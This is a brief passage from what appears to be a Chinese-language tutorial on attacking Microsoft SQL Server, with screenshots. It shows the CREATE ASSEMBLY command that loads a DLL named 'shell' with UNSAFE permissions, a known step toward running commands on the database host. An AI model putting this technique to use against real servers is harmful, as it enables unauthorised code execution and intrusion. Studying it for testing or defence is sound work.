 ![image.png](assets/1706232584-12993bd4b564f5a8a01e675ff6afd35a.png)  
使用命令创建程序集

```php
CREATE ASSEMBLY shell
FROM 'c:\temp\shell.dll'
WITH PERMISSION_SET = UNSAFE;
```

![image.png](assets/1706232584-215dd0ca904ad9a71ddca8f4de0cdb8b.png)  
创建过程
